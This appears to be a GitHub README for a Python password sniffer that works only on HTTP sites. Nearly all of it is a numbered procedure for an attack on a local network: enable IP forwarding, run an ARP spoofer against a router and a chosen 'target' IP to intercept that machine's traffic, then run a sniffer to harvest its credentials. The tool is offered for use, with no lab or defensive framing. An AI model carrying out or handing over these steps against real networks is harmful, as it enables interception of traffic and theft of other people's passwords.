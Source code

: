 # Pass_Sniffer
password sniffer developed in python. (only for HTTP websites)

## Prerequisites
~ You need to have python installed inside your machine in order to run this scanner.

## How To Use
~ Fire up your terminal and type the following command.
```
git clone https://github.com/jeet-patel313/Pass_Sniffer.git
```
```
cd Pass_Sniffer
```
```
echo 1 >> /proc/sys/net/ipv4/ip_forward 
```
enter the following command to check your router's ip address:
```
netstat -nr
```
now find the ip address of your target host machine and run the arp_spoofer.py first
```
python3 arp_spoofer.py <router_ip> <target_ip>
```
now run the pass_sniffer.py in order to sniff the target host for possible credentials
```
python3 pass_sniffer.py
```

## Developer
* **Jeet Patel**
[![Linkedin](https://i.stack.imgur.com/gVE0j.png) LinkedIn](https://www.linkedin.com/in/i-am-dope/)
